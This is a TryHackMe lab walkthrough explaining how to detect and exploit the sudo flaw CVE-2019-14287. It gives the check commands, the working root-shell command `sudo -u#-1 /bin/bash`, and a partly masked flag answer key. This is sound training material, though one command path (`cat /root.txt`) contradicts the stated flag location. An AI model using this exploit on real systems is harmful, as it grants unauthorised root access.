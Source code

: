 
**Title**: Sudo Security Bypass - TryHackMe  
**Published**: 2020-08-16  
**Updated**: 2025-07-17  
**Description**: A step-by-step guide to identifying and exploiting CVE-2019-14287 in the Unix Sudo Program.  
**Image**: ./cover.jpg  
**Tags**: ["TryHackMe", "CVE-2019-14287", "Sudo", "Privilege Escalation"]  
**Category**: TryHackMe  
**Draft**: false  

---

## Introduction

This guide provides a detailed walkthrough for identifying and exploiting CVE-2019-14287, a privilege escalation vulnerability in the Unix Sudo program. This is Room One in the SudoVulns Series on TryHackMe, designed to teach security bypass techniques.


**TryHackMe Room: Sudo Security Bypass**  
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series.  
[Visit Room](https://tryhackme.com/room/sudovulnsbypass?source=post_page-----c78cb21aa0cb---------------------------------------)



---

## Task 1: Deploy

To begin, deploy the TryHackMe machine and connect to it using SSH with the following command, replacing `<port-number>`, `<username>`, and `<remote-machine-ip>` with the values provided by TryHackMe:

```bash
ssh -p <port-number> <username>@<remote-machine-ip>
```

:::note
 Ensure you have the correct credentials and port number from the TryHackMe room instructions.
:::

---

## Task 2: Security Bypass

### Checking for Vulnerability

To determine if the target machine is vulnerable to CVE-2019-14287, first check the sudo configuration by running:

```bash
sudo -l
```

**Expected Output**:
```
User <username> may run the following commands on <hostname>:
    (ALL, !root) /bin/bash
```

If the output includes `(ALL, !root) /bin/bash`, the machine may be vulnerable, as this configuration allows the user to run `/bin/bash` as any user except `root`—a restriction that CVE-2019-14287 can bypass.

![sudo -l output](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dkduYM7DGoO1UrI6wC7STg.png)
*Image: Output of `sudo -l` showing the vulnerable configuration `(ALL, !root) /bin/bash`.*

To confirm vulnerability, check the sudo version:

```bash
sudo --version
```

![sudo version check](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tljqQqVfF7IUSVvIk_FJFA.png)
*Image: Checking the sudo version to confirm vulnerability (Sudo < 1.8.28).*

If the version is **Sudo < 1.8.28** (e.g., 1.8.27 or earlier), the machine is vulnerable. This is because CVE-2019-14287 exploits a flaw in how sudo handles negative user IDs.

:::note
 This vulnerability was patched in Sudo version 1.8.28, released in October 2019.
:::

### Exploiting the Vulnerability

CVE-2019-14287 allows a user to bypass the `(ALL, !root)` restriction by specifying an invalid user ID (`-u#-1`), which sudo interprets as the root user due to improper validation. To exploit this, run:

```bash
sudo -u#-1 /bin/bash
```

![security bypass exploit](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XxHCy_a432wtnCSVzlsVSQ.png)
*Image: Executing the exploit command `sudo -u#-1 /bin/bash` to gain a root shell.*

This command grants a root shell, as the `-u#-1` flag tricks sudo into running `/bin/bash` as the root user (UID 0).

### Capturing the Root Flag

With root access, navigate to the `/root` directory and read the `root.txt` file to retrieve the flag:

```bash
cd /root
cat /root.txt
```

![root flag](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*SPWk07gIDobGn4ljOGAq8g.png)
*Image: Displaying the root flag from `/root/root.txt`.*

The flag will be in the format `THM{...}`.

---

## Challenges

**#1. What command are you allowed to run with sudo?**  
**Answer**: `/bin/bash`

**#2. What is the flag in /root/root.txt?**  
**Answer**: `THM{l33t_********_******}`

---

## Conclusion

Congratulations! You’ve successfully identified and exploited CVE-2019-14287 to bypass sudo’s security restrictions and capture the root flag. This exercise demonstrates the importance of keeping software up to date to mitigate known vulnerabilities.

---
